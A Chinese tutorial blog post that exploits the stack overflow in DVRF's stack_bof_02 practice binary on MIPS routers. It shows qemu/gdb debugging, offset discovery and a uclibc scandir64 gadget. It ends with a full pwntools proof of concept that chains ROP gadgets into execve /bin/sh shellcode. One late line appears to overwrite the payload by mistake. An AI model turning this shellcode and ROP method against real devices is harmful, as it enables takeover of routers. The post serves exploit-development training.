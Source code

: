 ```yaml
---
title: 一步一步pwn路由器之rop技术实战
authorId: hac425
tags:
  - mips rop
  - 栈溢出
categories:
  - 路由器安全
date: 2017-10-28 11:47:00
---
```

### 前言


---
本文由 **本人** 首发于 先知安全技术社区：  https://xianzhi.aliyun.com/forum/user/5274/

---

这次程序也是 DVRF 里面的，他的路径是 `pwnable/ShellCode_Required/stack_bof_02` , 同样是一个简单的栈溢出，不过这个程序里面没有提供 `getshell` 的函数，需要我们执行shellcode来实现。这个正好实战下前文: [一步一步pwn路由器之路由器环境修复&&rop技术分析](https://jinyu00.github.io/%E8%B7%AF%E7%94%B1%E5%99%A8%E5%AE%89%E5%85%A8/2017-10-26-%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5pwn%E8%B7%AF%E7%94%B1%E5%99%A8%E4%B9%8B%E8%B7%AF%E7%94%B1%E5%99%A8%E7%8E%AF%E5%A2%83%E4%BF%AE%E5%A4%8D-rop%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90.html),中分析的在mips下的通用的rop技术。

### 正文
首先使用 `qemu` 运行目标程序，并等待 `gdb` 来调试。
```
sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/ShellCode_Required/stack_bof_02  "`cat ./pwnable/Intro/input`"
```

使用pwntools的 cyclic 功能，找到偏移
![paste image](http://oy9h5q2k4.bkt.clouddn.com/15091628511130mev14fe.png?imageslim)
验证一下：
```
payload = "A" * 508 + 'B' * 4

with open("input", "wb") as f:
    f.write(payload)
```
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509163815793mv4b39p0.png?imageslim)
OK, 现在我们已经可以控制程序的 `$pc`寄存器了，下一步就是利用的方法了。使用前文的那个 rop 链，我们需要可以控制 `$s1`寄存器。但是这里我们并没有办法控制。不过在 [这里](https://jinyu00.github.io/%E8%B7%AF%E7%94%B1%E5%99%A8%E5%AE%89%E5%85%A8/2017-10-27-MIPS-rop-gadgets%E8%AE%B0%E5%BD%95%E8%B4%B4-%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0.html)提到，在 `uclibc` 的 `scandir` 或者 `scandir64` 的函数末尾有一个` gadgets` 可以操控几乎所有寄存器。

```
.text:0000AFE0                 lw      $ra, 0x40+var_4($sp)
.text:0000AFE4                 lw      $fp, 0x40+var_8($sp)
.text:0000AFE8                 lw      $s7, 0x40+var_C($sp)
.text:0000AFEC                 lw      $s6, 0x40+var_10($sp)
.text:0000AFF0                 lw      $s5, 0x40+var_14($sp)
.text:0000AFF4                 lw      $s4, 0x40+var_18($sp)
.text:0000AFF8                 lw      $s3, 0x40+var_1C($sp)
.text:0000AFFC                 lw      $s2, 0x40+var_20($sp)
.text:0000B000                 lw      $s1, 0x40+var_24($sp)
.text:0000B004                 lw      $s0, 0x40+var_28($sp)
.text:0000B008                 jr      $ra
.text:0000B00C                 addiu   $sp, 0x40
.text:0000B00C  # End of function scandir64
```

于是利用的思路就很明确了。首先使用这段 `rop gadgets` 设置好寄存器，然后进入前文所说的 `rop` 链中执行。
最后的poc如下：
```
#!/usr/bin/python
from pwn import *
context.endian = "little"
context.arch = "mips"

payload = ""

# NOP sled (XOR $t0, $t0, $t0; as NOP is only null bytes)
for i in range(30):
    payload += "\x26\x40\x08\x01"

# execve shellcode translated from MIPS to MIPSEL
# http://shell-storm.org/shellcode/files/shellcode-792.php
payload += "\xff\xff\x06\x28"  # slti $a2, $zero, -1
payload += "\x62\x69\x0f\x3c"  # lui $t7, 0x6962
payload += "\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f
payload += "\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)
payload += "\x73\x68\x0e\x3c"  # lui $t6, 0x6873
payload += "\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e
payload += "\xf8\xff\xae\xaf"  # sw $t6, -8($sp)
payload += "\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)
payload += "\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc
payload += "\xff\xff\x05\x28"  # slti $a1, $zero, -1
payload += "\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab
payload += "\x0c\x01\x01\x01"  # syscall 0x40404
shellcode = payload


padding = "O" * 508
payload = padding
payload += p32(0x766effe0)
payload += 'B' * 0x18
payload += 'A' * 4  # $s0
payload += p32(0x7670303c)  # $s1
payload += 'A' * 4  # $s2
payload += 'A' * 4  # $s3
payload += 'A' * 4  # $s4
payload += 'A' * 4  # $s5
payload += 'A' * 4  # $s6
payload += 'A' * 4  # $s7
payload += 'A' * 4  # $fp
payload += p32(0x76714b10)  # $ra for jmp

# stack for gadget 2
payload += 'B' * 0x18
payload += 'A' * 4  # $s0
payload += p32(0x0002F2B0 + 0x766e5000)  # $s1
payload += 'A' * 4  # $s2
payload += p32(0x766fbdd0)  # $ra


# stack for gadget 2 for second
payload += 'B' * 0x18
payload += p32(0x767064a0)  # $s0  for jmp stack
payload += p32(0x0002F2B0 + 0x766e5000)  # $s1
payload += 'A' * 4  # $s2
payload += p32(0x766fbdd0)  # $ra for get stack addr

# stack for shellcode
payload += shellcode

payload = "A" * 508 + 'B' * 4

with open("input", "wb") as f:
    f.write(payload)


# base 0x766e5000

```
可以执行完毕 `shellcode` , 不过执行完后就异常了。神奇。
### 总结
在调试rop时可以先在调试器中修改寄存器，内存数据来模拟实现，然后在写到脚本里面。

参考链接：

https://www.pnfsoftware.com/blog/firmware-exploitation-with-jeb-part-2/